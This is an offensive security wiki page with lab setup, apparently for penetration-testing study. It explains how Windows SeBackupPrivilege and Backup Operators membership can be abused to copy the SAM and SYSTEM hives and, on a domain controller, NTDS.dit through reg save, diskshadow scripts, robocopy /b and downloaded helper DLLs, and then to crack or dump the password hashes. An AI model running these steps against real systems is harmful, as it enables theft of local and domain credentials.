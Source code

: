 # SeBackupPrivilege

## Theory

This specific privilege escalation is based on the act of assigning a user SeBackupPrivilege (by default it is assigned to the Administrators group). It was designed to allow users to create system backups. This privilege has the cost of providing the user with full read access to the file system. This privilege must bypass any ACLs that the administrator has placed on the network. So, in a nutshell, this privilege allows the user to read any file in the entirety of the files which could also include some sensitive files such as the SAM file or the SYSTEM log file. From the attacker's perspective, this can be exploited after gaining the initial foothold on the system and then moving to an elevated shell essentially reading the SAM files and possibly cracking the passwords of high privilege users on the system or network.

{% hint style="danger" %}
Before moving on to exploitation, let's explain why there is a difference in exploitation methodology between a domain controller and a Windows machine. This is because, in the case of a DC, the privilege only allows us to make backups, not copies. On a Windows system, we can make copies of files such as SAM and SYSTEM with a simple command. In the case of a DC, the method differs as we now need to back up SAM and SYSTEM files or any other sensitive files to extract the users password hash.
{% endhint %}

## Practice

### Verification

#### In Windows:

* Privileges: **SeBackupPrivilege**

INSERT IMAGE

#### In Domain Controller:

* Privileges: **SeBackupPrivilege**, **SeRestorePrivilege**
* Group: **Backup Operators**

INSERT IMAGE

### PrivEsc in Windows

{% tabs %}
{% tab title="Method #1" %}
If we only want to extract the hive records, then we can directly use these commands:

```shell
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
reg save hklm\system c:\Temp\security
```
{% endtab %}

{% tab title="Method #2" %}
If we want to extract files, we will have to import some .DLL modules and that's it:

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
# Upload the .DLL files to the compromised machine.
# We import both modules:
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Ready, we can execute the following commands:

{% hint style="warning" %}
If the privilege is disabled (we can check it with `Get-SeBackupPrivilege`), we can enable it with `Set-SeBackupPrivilege` (you need the imported DLL modules).
{% endhint %}

```powershell
Copy-FileSeBackupPrivilege '<PATH TO FILE>' .\<RENAME>
```
{% endtab %}

{% tab title="Lab Setup" %}
We are going to perform this demonstration on a Windows 10 machine that is not part of a domain. Here, we need to create a user to whom we are going to provide the privilege:

```shell
net user leviswings levi123! /add
```

Now, to create a realistic scenario, we need to enable WinRM. This can be done by opening PowerShell and enabling the PSRemoting option. Although it requires setting permissions to run scripts to bypass as demonstrated below:

```shell
powershell -c "Enable-PSRemoting" -Force
powershell -ep bypass -c "Enable-PSRemoting" -Force # Another way.
```

Now the most important step. We have to provide privileges to the newly created user. We are going to use a module called Carbon. First, we have to install the module and then import its objects into the session using the `Import-Module` option:

```powershell
powershell -c "Install-Module -Name carbon"
powershell -ep bypass -c "Import-Module carbon" # Another way.
```

There are a bunch of different cmdlets that come with the carbon module we just installed. One of the cmdlets is called **Grant-CPrivilege**. This cmdlet will be used to grant the **SeBackupPrivilege** privilege to the leviswings user we just created.

```shell
powershell -c "Grant-CPrivilege -Identity leviswings -Privilege SeBackupPrivilege"
# To test if we assign it:
powershell -c "Test-CPrivilege -Identity leviswings -Privilege SeBackupPrivilege"
```

We may need to add our user to the "Remote Management Users" group so that we can authenticate through WinRM:

{% hint style="danger" %}
The name of the "**Remote Management Users**" group **may change** depending on the **language** of the machine.
{% endhint %}

```shell
net localgroup "Remote Management Users" leviswings /add
```
{% endtab %}
{% endtabs %}

After copying the hives, we can download them to our machine and extract the hashes with [secrestsdump.py or mimikatz](../../../credential-access/os-credential-dumping/sam-and-lsa-secrets-and-cached-domain-credentials.md#practice).

### PrivEsc in DC

{% tabs %}
{% tab title="Method #1" %}
1. Create a file named pwn.dsh on your computer with the following contents:

{% code title="pwn.dsh" %}
```bash
set context persistent nowriters
add volume c: alias pwned
create
expose %pwned% z:
```
{% endcode %}

&#x20; 2\. Convert the created file to DOS format:

```
unix2dos pwn.dsh
```

&#x20; 3\. We transfer the file to the compromised machine.

&#x20; 4\. We execute the following commands to extract the NTDS.dit:

```shell
diskshadow /s pwn.dsh
# robocopy syntax:
robocopy /b <PATH_TO_DIRECTORY> <PATH_TO_BACKUP> <FILENAME>
robocopy /b z:\windows\ntds . ntds.dit # We make a backup from Z to C of the NTDS.dit:
# Done. All this procedure is to get the NTDS.dit, we only need the SYSTEM:
reg save hklm\system C:\Windows\Temp\system.bak
# In case it does not work, we do:
robocopy /b z:\Windows\System32\config . SYSTEM
```
{% endtab %}

{% tab title="Method #2" %}
{% hint style="danger" %}
If the privilege is disabled (we can check it with **Get-SeBackupPrivilege**), we can enable it with **Set-SeBackupPrivilege** (the imported DLL modules are needed).
{% endhint %}

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
# Upload .DLL files
# We import both modules:
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# Run the following commands with diskshadow.exe:
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
# Done. We make a backup from E to C of the NTDS.dit:
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
# Done. All this procedure is to get the NTDS.dit, we only need the SYSTEM:
reg save hklm\system C:\Windows\Temp\system.bak
# In case it does not work, we do:
Copy-FileSeBackupPrivilege E:\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM.bak
```
{% endtab %}

{% tab title="Lab Setup" %}
### Requirements

Install Active Directory services to operate as Domain Controller.

### Lab Setup

Let's create a new user by adding it to the `Backup Operators` group:

![](../../../../.gitbook/assets/lab\_setup\_backup\_operators\_1.png)

![](../../../../.gitbook/assets/lab\_setup\_backup\_operators\_2.png)

![](../../../../.gitbook/assets/lab\_setup\_backup\_operators\_3.png)

![](../../../../.gitbook/assets/lab\_setup\_backup\_operators\_4.png)

![](../../../../.gitbook/assets/lab\_setup\_backup\_operators\_5.png)

Now, to create a realistic scenario, we need to enable WinRM. This can be done by opening PowerShell and enabling the PSRemoting option. Although it requires setting permissions to run scripts to bypass as demonstrated below:

```shell
powershell -c "Enable-PSRemoting" -Force
powershell -ep bypass -c "Enable-PSRemoting" -Force # Another way
```
{% endtab %}
{% endtabs %}

With the NTDS.dit file and the SYSTEM file, we download it to our machine and extract all the hashes as shown here.

## References

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege" %}
